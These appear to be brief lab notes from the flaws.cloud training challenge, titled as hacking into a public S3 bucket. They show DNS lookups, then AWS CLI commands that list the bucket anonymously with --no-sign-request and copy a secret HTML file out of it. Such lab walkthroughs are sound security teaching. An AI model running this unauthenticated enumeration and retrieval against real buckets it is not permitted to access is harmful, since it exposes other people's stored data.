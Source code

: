 Hacking Into a public S3 bucket

```
nslookup flaws.cloud
```

```
nslookup  52.92.196.35
```

```
aws s3 ls s3://flaws.cloud  --no-sign-request
aws s3 ls  s3://flaws.cloud/ --no-sign-request --region us-west-2

```

```
aws s3 cp s3://flaws.cloud/secret-dd02c7c.html --no-sign-request secret.html
```